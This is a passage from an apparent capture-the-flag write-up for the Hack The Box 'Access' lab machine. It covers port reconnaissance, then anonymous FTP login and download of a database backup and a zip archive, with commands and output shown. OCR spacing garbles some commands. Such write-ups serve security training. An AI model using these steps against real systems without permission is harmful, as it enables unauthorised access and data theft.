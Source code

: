 ```bash
```

Nmap is a great tool to leverage, and most reconnaissance begins with it. The scan reveals that ports 21, 23 and 80 are open. 

Port 80 is a web service, however there does not seem to be anything interesting. We could check this further with `dirbuster`, but let's move on for the moment. 

Port 23 is telnet, however it requires credentials which we do not have.

Port 21 is FTP, and even better, it allows anonymous login.

## Exploitation

### Anonymous FTP Access

Let us connect to the FTP service anonymously by following the below:

```bash
root@kali :~/ HTB / Access # ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98: root ): Anonymous
331 Anonymous access allowed , send identity (e - mail name )
as password .
Password : < enter anything here >
230 User logged in .
Remote system type is Windows_NT .
```

Success. Our findings reveal that there are two directories, ``Backups`` and ``Engineer``. Using ``ls`` we can inspect what is in each directory.

```bash
ftp > ls / backups /
200 PORT command successful .
125 Data connection already open ; Transfer starting .
08 -23 -18 08:16 PM
5652480 backup . mdb
226 Transfer complete .
ftp > ls / Engineer /
200 PORT command successful .
125 Data connection already open ; Transfer starting .
08 -24 -18 12:16 AM
10870 Access Control . zip
226 Transfer complete .
```

Next, we download `backup.mdb` and `Access Control.zip` by using get. Make note of the file size,
and ensure that each file downloaded matches this size. If issues are noted, set your FTP client to
binary prior to using `get`.

```bash
ftp > cd Backups
250 CWD command successful .
ftp > binary
200 Type set to I .
ftp > get backup . mdb
local : backup . mdb remote : backup . mdb
200 PORT command successful .
125 Data connection already open ; Transfer starting .
226 Transfer complete .
5652480 bytes received in 21.76 secs (253.6540 kB / s )
ftp > cd ../ Engineer
250 CWD command successful .
ftp > binary
200 Type set to I .
ftp > get " Access Control . zip "
```